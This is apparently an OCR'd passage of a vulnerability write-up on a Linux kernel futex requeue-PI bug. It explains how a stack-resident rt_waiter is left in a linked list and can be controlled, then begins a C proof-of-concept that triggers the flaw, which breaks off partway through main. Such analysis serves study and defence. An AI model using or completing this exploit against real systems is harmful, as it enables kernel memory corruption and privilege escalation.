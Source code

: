    ```c
   ...
       } else {
   ...
           /* This is the branch NOT TAKEN, which would normally remove
            * rt_waiter from the waiter list */
           ret = rt_mutex_finish_proxy_lock(pi_mutex, to, &rt_waiter, 1);
   ...
       }
   ...
   }
   ```

The side effect of all of this is that an `rt_waiter` object which resides in the stack of `futex_wait_requeue_pi` has been added to some linked list (`rt_mutex_start_proxy_lock` in `futex_requeue`), and `futex_wait_requeue_pi` has returned without removing that waiter (`rt_mutex_finish_proxy_lock`).

We now have a linked list, where one of the nodes resides on the stack, but outside a stack-frame. Any system call executed following `futex_wait_requeue_pi` will overrun that node, corrupting the list.

However, if we set up the correct system call, with the correct values to run after `futex_wait_requeue_pi` returns, we can control that list to our advantage.

Here is an implementation of the bug combination:
```c
#include <stdio.h>
#include <unistd.h>
#include <pthread.h>
  
#include "futaux.h"
#include "userlock.h"
  
int A = 0, B = 0;
  
volatile int invoke_futex_wait_requeue_pi = 0;
volatile pid_t thread_tid = -1;
  
void *thread(void *arg)
{
    thread_tid = gettid();
    printf("[2]\n");
    userlock_wait(&invoke_futex_wait_requeue_pi);
    futex_wait_requeue_pi(&A, &B);
    printf("Someone woke me up\n");
    while (1) {
        sleep(1);
    }
}
  
int main(int argc, char *argv[])
{
    pthread_t t;
    int context_switch_count = 0;
  
    printf("[1]\n");
  
    futex_lock_pi(&B);
  
    userlock_lock(&invoke_futex_wait_requeue_pi);
    pthread_create(&t, NULL, thread, NULL);
    /* Wait for the thread to be in a system call */
    while (thread_tid < 0) {
        usleep(10);
    }
```